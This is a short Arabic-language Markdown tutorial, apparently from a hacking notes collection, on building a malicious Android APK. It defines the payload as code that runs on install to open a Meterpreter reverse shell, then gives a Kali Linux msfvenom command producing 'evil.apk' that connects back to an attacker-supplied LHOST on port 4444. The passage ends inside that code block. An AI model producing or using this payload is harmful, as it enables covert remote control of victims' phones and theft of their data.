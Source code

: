 
<!-- apk-payload.md -->

               __   ____  _  __          _      _ 
              / /  |  _ \(_)/ _| ___  __| | ___| |
             / /   | |_) | | |_ / _ \/ _` |/ _ \ |
            / /    |  __/| |  _|  __/ (_| |  __/ |
           /_/     |_|   |_|_|  \___|\__,_|\___|_|
                                                  
# إنشاء APK Payload

## 1. تعريف Payload
- Payload: كود خبيث مدموج داخل APK يشتغل فور تثبيته على الجهاز.  
- الهدف: إنشاء اتصال عكسي (reverse shell) عبر Meterpreter.

## 2. خطوات الإنشاء
1. افتح Kali Linux Terminal.  
2. نفّذ الأمر التالي:
   ```bash
   msfvenom -p android/meterpreter/reverse_tcp \
     LHOST=<IP_DYALK> LPORT=4444 \
     -o evil.apk

